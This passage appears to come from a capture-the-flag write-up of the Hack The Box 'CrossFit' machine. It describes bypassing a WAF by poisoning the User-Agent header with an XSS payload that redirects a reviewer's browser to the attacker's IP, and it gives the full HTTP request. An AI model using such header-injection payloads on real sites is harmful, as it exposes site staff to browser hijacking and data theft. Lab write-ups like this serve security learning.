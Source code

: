 This returned something...interesting:

![](../../../.gitbook/assets/htb-crossfit-image-4.png)

There's a WAF blocking our request, and it takes note of our IP address and browser information. I also did not get the callback. 

I tried to bypass this WAF, but nothing got me a callback. I thought about it, and perhaps I was **supposed** to trigger this error.

It's quite odd that the website tells me exactly what it is going to send to the security team. Browser information is normally present within the `User-Agent` header.

As such, I tried poisoning that header with an XSS payload, and triggering the security warning by sending a `<script>` tag.

```http
POST /blog-single.php HTTP/1.1
Host: gym-club.crossfit.htb
User-Agent: <script>document.location="http://10.10.14.13/hiiamxss"</script>

name=Test&email=test%40gmail.com&phone=test&message=<script>&submit=submit
```

This triggered the bug again, but this time I was able to get a callback:

![](../../../.gitbook/assets/htb-crossfit-image-5.png)

Using this knowledge, automating this step is rather easy.
